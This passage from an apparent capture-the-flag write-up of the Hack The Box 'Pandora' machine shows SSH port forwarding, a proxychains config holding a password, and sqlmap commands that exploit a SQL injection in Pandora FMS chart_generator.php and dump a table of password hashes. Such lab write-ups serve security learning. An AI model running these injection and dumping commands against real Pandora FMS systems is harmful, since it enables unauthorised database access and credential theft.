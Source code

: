 I’ll set pandora.panda.htb to 127.0.0.1 in my /etc/hosts file, then I’ll reconnect my SSH session with `-L 9001:localhost:80` so that 9001 on my local machine now forwards to localhost port 80 on Pandora.
``` bash
ssh -L 9001:localhost:80 daniel@pandora.htb
```
![pandora_cms_page](./img/pandora_page.png)

Navigating to localhost.localdomain/pandora_console will show us a login page for some software called Pandora FMS. according to the version that is typed in the bottom the page **v7.0NG.742_FIX_PERL2020** there is are lots of [CVEs](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) one of the vulns says that its a sql vuln.

The injections is in `/include/chart_generator.php` It passes $_REQUEST['session_id'] to the constructor for a PandoraFMS\User object, and that is not sanitized.

I'll try to request a `?session_id='` parameter to `include/chart_generator.php`, and it returns an SQL error:

![sql_inj](./img/sql_inj.png)

I'll use sqlmap for this injection, so I will need to use a great tool called proxychains. Proxychains was designed to create a chain of proxies that allow you to pivot your tools into systems without having to install tools on the other side of whatever you are attacking into.

To use proxychains, we need to specify the dynamic tunnel to pivot through via the `/etc/proxychains.conf` file.

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 127.0.0.1 9001 daniel HotelBabylon23
```

Now, we can run a sql attack against the chart generator php file.

```bash
[werz@Arch pandora]$ sqlmap --url="http://localhost:9001/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
```

sqlmap dumped a lot of tables `tpassword_history` table looks intersting, lets dump it.
``` bash
[werz@Arch pandora]$ sqlmap --url="http://localhost:9001/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
```
so it contains password hashes for matt and daniel.
```bash
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+
```
We can try to crack them, its a long story to do.